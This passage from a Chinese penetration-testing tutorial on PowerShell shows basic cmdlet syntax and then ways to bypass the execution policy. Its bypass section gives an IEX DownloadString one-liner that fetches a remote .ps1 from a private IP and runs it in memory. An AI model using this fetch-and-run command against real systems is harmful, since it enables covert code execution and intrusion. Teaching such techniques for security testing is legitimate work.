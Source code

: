 
### 2.基础语法

此外，在渗透测试中，Powershell是不能忽略的一个环节，而且仍在不断地更新和发展，它具有良好的灵活性和功能化管理Windows系统的能力。一旦攻击者可以在一台计算机上运行代码，就会下载PowerShell脚本文件（.ps1）到磁盘中执行，甚至无须写到磁盘中执行，它就可以直接在内存中运行。

这些特点使得PowerShell在获得和保持对系统的访问权限时，成为攻击者首选的攻击手段，利用PowerShell的诸多特点，攻击者可以持续攻击而不被轻易发现。常用的PowerShell攻击工具有以下几种。

在PowerShell下，类似“cmd命令”叫作“cmdlet”，其命名规范相当一致，都采用“动词-名词”的形式，如New-Item，动词部分一般为Add、New、Get、Remove、Set等，命名的别名一般兼容Windows Command和Linux Shell，如Get-ChildItem命令使用dir或ls均可，而且PowerShell命令不区分大小写。

下面以文件操作为例讲解PowerShell命令的基本用法。

举个简单的示例：

```
New-Item test -ItemType directory
Remove-Item test
New-Item eastmount.txt -ItemType file -value "hello csdn"  

Get-Content eastmount.txt
Add-Content eastmount.txt -Value " bye!"
Get-Content eastmount.txt 

Set-Content eastmount.txt -Value "haha"
Get-Content eastmount.txt
Clear-Content eastmount.txt
Get-Content eastmount.txt
Remove-Item eastmount.txt
Get-Content eastmount.txt

```

---


### 3.Bypass

经过测试，在cmd窗口执行过程下载的PowerShell脚本，不论当前策略，都可以直接运行。而如果要在PowerShell窗口运行脚本程序，必须要管理员权限将Restricted策略改成Unrestricted，所以在渗透时，就需要采用一些方法绕过策略来执行脚本。

<font color="red">**(1) 下载远程PowerShell脚本绕过权限执行**</font><br/> 调用DownloadString函数下载远程的ps1脚本文件。

```
//cmd窗口执行以下命令
powershell -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.10.11/test.ps1')

//在powershell窗口执行
IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.10.11/test.ps1')

```

下图引用谢公子的图片，切换到CMD窗口运行。

<font color="red">**(2) 绕过本地权限执行**</font><br/> 上传xxx.ps1至目标服务器，在CMD环境下，在目标服务器本地执行该脚本，如下所示。
